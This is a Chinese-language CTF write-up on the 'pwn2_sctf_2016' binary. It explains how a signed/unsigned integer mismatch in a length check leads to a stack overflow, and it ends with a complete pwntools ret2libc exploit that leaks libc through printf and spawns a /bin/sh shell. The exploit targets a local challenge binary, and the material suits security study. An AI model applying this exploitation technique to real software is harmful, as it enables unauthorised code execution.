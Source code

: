 ## 0x001 程序分析

分析vuln函数

![](1.png)

函数中首先使用 **get_n** 接收输入4个字符，然后使用atoi将输入的字符串转化为整数

如果输入的整数大于32，则报错，如果小于32，则可以输入该长度字符。

## 0x002 漏洞分析

由于 **nptr** 数组的长度为32，那么根据程序的限制，只能接收输入长度小于32的字符串，那么如果输入的长度小于32，则不能造成栈溢出。

那么只能进入 **get_n** 查看一下

![](2.png)

在这里可以看到， **get_n** 接收的输入的第二个参数也就是接收输入长度为 **无符号整型**，而在vuln中调用 **get_n** 时，传的参数v2为 **有符号整型**，那么此时就会产生 **整型溢出** 漏洞。

比如我们在第一个输入时，输入 **-1**，那么atoi就会将 **-1** 转化为 **0xffff** 保存在内存中。当 **0xffff** 与 32 比较时，是以有符号整型和其比较的，也就是 -1 和 32 进行比较。当 **0xffff** 作为无符号整型作为接收输入长度时，这个长度就很大了，足够造成栈溢出了。

## 0x003 漏洞利用

上面已经分析了整数溢出的利用方式，有了整数溢出，就可以很轻松的利用栈溢出漏洞了。

查看程序只开启了 NX 保护

![](3.png)

那么接下来就是常规的栈溢出漏洞利用手法，构造ROP泄漏libc地址，然后调用system("/bin/sh")获取系统权限。

最终exp如下：
```
from pwn import *
from LibcSearcher import *

p = process("./pwn2_sctf_2016")
elf = ELF("pwn2_sctf_2016")

printf_got = elf.got["printf"]
printf_plt = elf.plt["printf"]
main_addr = elf.symbols["main"]

p.sendlineafter("How many bytes do you want me to read? ", "-1")

payload = b"A" * 48 + p32(printf_plt) + p32(main_addr) + p32(printf_got)
p.sendline(payload)

p.recvuntil(b"You said: ")
p.recv(61)
printf_real_addr = u32(p.recv(4))

libc = LibcSearcher("printf", printf_real_addr)
libcbase = printf_real_addr - libc.dump("printf")
system_addr = libcbase + libc.dump("system")
bin_sh_addr = libcbase + libc.dump("str_bin_sh")

p.sendlineafter(b"How many bytes do you want me to read? ", b"-1")
payload = b"A" * 48 + p32(system_addr) + p32(main_addr) + p32(bin_sh_addr)
p.sendline(payload)

p.interactive()
```